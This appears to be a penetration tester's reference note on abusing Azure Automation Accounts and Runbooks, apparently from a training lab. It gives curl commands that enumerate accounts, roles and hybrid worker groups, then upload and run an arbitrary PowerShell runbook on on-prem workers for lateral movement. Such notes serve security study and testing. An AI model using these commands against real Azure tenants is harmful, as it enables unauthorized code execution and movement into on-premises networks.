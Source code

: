 ```yaml
---
title: Automation Accounts & Runbooks
---
```


[[notes/azure/index]] Automation Accounts allow to automate tasks for Azure resources, [[notes/azure/escalation-onprem|on-prem infrastructure]] and other cloud providers.

Common scenarios:

- deploy VMs across a hybrid environment using runbooks
- identify configuration changes
- configure VMs
- retrieve inventory

What is a Run As Account?

- provides authentication for managing Azure resources
- on creation a service principal is created and assigned the contributor role on the current subscription
- can only be used from inside a Runbook
- recommended to use managed identities instead
- can be abused with the contributor role on a Runbook

What is a Runbook?

- executed in context of the Run As Account
- contains code for automation logic
- code might contain credentials
- Runbooks can be executed in the cloud or by a Hybrid Runbook Worker, the latter allows lateral movement to on-prem
- maybe can run commands on Azure VMs using Desired State Configuration (DSC) ([source](http://web.archive.org/web/20231019211210/https://scribe.rip/@cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe))

Enumerate automation accounts.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/providers/Microsoft.Automation/automationAccounts?api-version=2021-06-22" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Enumerate the role assignments on an automation account and resolve its role definitions.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/providers/Microsoft.Authorization/roleAssignments?api-version=2020-08-01-preview" -H "Authorization: Bearer $arm_token" | jq -r '.value[].properties.roleDefinitionId'
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/providers/Microsoft.Authorization/roleDefinitions/$role_def_id?api-version=2022-04-01' -H "Authorization: Bearer $arm_token" | jq -r '.properties'
~~~

Enumerate hybrid worker groups.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/hybridRunbookWorkerGroups?api-version=2022-08-08" -H "Authorization: Bearer $arm_token" | jq -r '.value[]'
~~~

Import a PowerShell script as Runbook.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57?api-version=2022-08-08" -d '{"properties":{"runbookType":"PowerShell"},"name":"student57","location":"switzerlandnorth"}' -X PUT -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57/draft/content?api-version=2022-08-08" --data-binary @work.ps1 -X PUT -H "Authorization: Bearer $arm_token"
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/runbooks/student57/publish?api-version=2022-08-08" -d '' -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token"
~~~

Execute a Runbook on a worker group.

~~~ bash
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/jobs/$(uuidgen -r)?api-version=2022-08-08" -d '{"properties":{"runbook":{"name":"student57"},"parameters":{},"runOn":"Workergroup1"}}' -X PUT -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r .id
curl -sSf "https://management.azure.com/subscriptions/$subscription_id/resourceGroups/Engineering/providers/Microsoft.Automation/automationAccounts/HybridAutomation/jobs/$job_id?api-version=2022-08-08" -H 'Content-Type: application/json' -H "Authorization: Bearer $arm_token" | jq -r .properties
~~~

References:

- [Azure Persistence with Desired State Configurations](http://web.archive.org/web/20230726150132/https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
- [Azure Attack Paths - Azure Automation Hybrid Runbook Worker](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#azure-automation-hybrid-runbook-worker)
- [Azure Attack Paths - Desired State Configuration](http://web.archive.org/web/20231028211850/https://cloudbrothers.info/azure-attack-paths/#desired-state-configuration)
- [Managed Identity Attack Paths, Part 1: Automation Accounts](http://web.archive.org/web/20231028211603/https://scribe.rip/@specterops/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
- [Azure attack paths: Common findings and fixes (part 1)](http://web.archive.org/web/20231006124147/https://blog.zsec.uk/azure-fundamentals-pt1/)
